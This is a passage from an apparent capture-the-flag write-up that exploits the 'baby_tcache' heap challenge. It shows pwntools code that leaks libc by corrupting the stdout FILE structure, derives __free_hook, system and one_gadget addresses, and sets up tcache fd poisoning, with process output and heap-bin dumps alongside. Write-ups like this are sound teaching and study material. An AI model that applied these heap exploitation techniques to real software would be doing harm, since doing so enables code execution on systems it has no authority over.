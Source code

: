 ```py
add(0x60,"w")
add(0x60,p64(0xfbad1800) + p64(0x00)*3 + b"\x00",1)
```

This resulted in:-

![](/img/pwning/dump.png)

Now, such that this has happened, we carefully parse the leak which resulted in a success LIBC leak:-


```py
libc_leak=u64(p.recv(6)+b"\x00\x00")-0x3ebff0

log.info("LIBC:  "+hex(libc_leak))
free_hook=libc_leak + libc.symbols['__free_hook']
system=libc_leak + libc.symbols['system']
one_gadget = libc_leak+0x4f432
```

And we get a success LIBC leak, thus defeating the ASLR:-

```asm
[+] Starting local process './baby_tcache': pid 4839
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] 0x7ff4d3954000
[*] Switching to interactive mode

[..snip..]

🍊      Baby Tcache      🍊
$$$$$$$$$$$$$$$$$$$$$$$$$$$
$   1. New heap           $
$   2. Delete heap        $ 
$   3. Exit               $ 
$$$$$$$$$$$$$$$$$$$$$$$$$$$
Your choice: $  


```

Now, from this point we will just overwrite the `fd` of a `free`'d tcache chunk with our target address such that during next allocation, depending on the size will return the target via `malloc` allowing us to overwrite it. Given the heap condition as of now, when we look at the available bins, we see:-

```asm
gef➤  heap bins
────────────────────────────────── Tcachebins for arena 0x7fe15febfc40 ──────────────────────────────────
Tcachebins[idx=0, size=0x20] count=1  ←  Chunk(addr=0x55ab342e0810, size=0x7fe15febfca0, flags=) 
Tcachebins[idx=5, size=0x70] count=255  ←  [Corrupted chunk at 0xfbad2887]
─────────────────────────────────── Fastbins for arena 0x7fe15febfc40 ───────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
```